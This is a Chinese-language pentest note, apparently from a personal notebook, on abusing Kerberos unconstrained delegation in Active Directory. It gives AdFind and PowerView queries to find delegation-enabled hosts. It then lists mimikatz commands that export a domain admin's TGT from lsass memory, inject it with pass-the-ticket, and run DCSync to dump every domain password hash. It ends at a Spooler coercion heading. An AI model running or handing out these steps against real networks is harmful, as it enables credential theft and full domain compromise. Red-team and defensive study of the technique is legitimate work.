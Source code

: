 被动(需要被域管访问过服务）<br />[https://www.freebuf.com/articles/web/304850.html](https://www.freebuf.com/articles/web/304850.html)<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1667402966712-0dee005f-a0a4-4c96-bf3d-37146ea38bf2.png#clientId=u935d02d8-8334-4&from=paste&height=248&id=u16960648&originHeight=310&originWidth=1772&originalType=binary&ratio=1&rotation=0&showTitle=false&size=115976&status=done&style=none&taskId=u22193a60-fe65-42a0-8e3d-9ac435615d9&title=&width=1417.6)
<a name="FurEc"></a>
#### 查询域中配置非约束委派
```
#查询域中配置非约束委派的主机
AdFind.exe -b "DC=laosec,DC=cn" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -dn

#查询域中配置非约束委派的服务账户
AdFind.exe -b "DC=laosec,DC=cn" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" -dn
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1670946868929-ea5d719d-81c0-4f29-85d3-740f38b27f73.png#clientId=u4b277e6e-d297-4&from=paste&height=310&id=ud0bbb69c&originHeight=388&originWidth=1220&originalType=binary&ratio=1&rotation=0&showTitle=false&size=38215&status=done&style=none&taskId=ue2a3a945-05c2-4553-a6aa-aa7b518eea4&title=&width=976)

1.获取到目标机权限，还得要定位域管，知道域管登录过哪台机子(或者说，访问过哪些服务也行，因为访问过服务也会留下TGT票据)所以单纯的非约束委派话需要管理员主动连接，在实战环境利用比较鸡肋。<br />在域中只有服务账户才能有委派功能使用setspn  `setspn -l xxxxx`<br />2.查看域内所有非约束性的主机<br />3.mimikatz伪造TGT

是指域控**信任此计算机的任何服务 (一般其他主机是 不信任委派的)**<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611672313310-43860165-678e-4d3b-9ce4-853fcba5e2a9.png#height=353&id=eHoHZ&originHeight=470&originWidth=528&originalType=binary&ratio=1&rotation=0&showTitle=false&size=27726&status=done&style=none&title=&width=396)<br />先查看域内非约束性委派的主机账号，如下(域控默认是设置为非约束性委派)。<br />无需管理员启动。否则system权限无法访问域<br />使用powerviewer.ps1脚本导入。<br />Get-NetComputer -Unconstrained -Domain xxx.com

或者用Adfind.exe查找配置了非约束委派的主机<br />![image.png](https://cdn.nlark.com/yuque/0/2022/png/1345801/1667371007344-ef75b064-dfa6-402e-bfd4-648eec9b7fe2.png#clientId=u4b3edc4b-7b6b-4&from=paste&height=186&id=uf14ab605&originHeight=232&originWidth=729&originalType=binary&ratio=1&rotation=0&showTitle=false&size=26942&status=done&style=none&taskId=uba444231-f942-4679-8861-9dfad4fcad5&title=&width=583.2)

如果域管身份test登陆过这台机子在主机win7的lsass.exe内存中就会有域管test的TGT票据。我们在win7上以本地管理员权限运行mimikatz，执行以下命令
> privilege::debug
> 导出票据
> sekurlsa::tickets /export



可以看到会生成一个 test@krbtgt 的票据 (在mimikatz的目录下生成的票据)

我们用 mimikatz 将这个票据导入内存中，然后访问域控。需要主机访问，ip无法成功

> 导入票据
> kerberos::ptt [0;89b3d]-2-0-60a00000-test@krbtgt-xxxx.COM.kirbi
> **如果是注入域管的票据，其实可以直接导出所有hash**
> **lsadump::dcsync /domain:xxx.com /all /csv**
> 查看票据
> kerberos::list


<a name="HMum9"></a>
### 非约束委派&Spooler(未成功
<a name="bAl75"></a>
#### 大白话解释：
这个是强迫域控访问服务
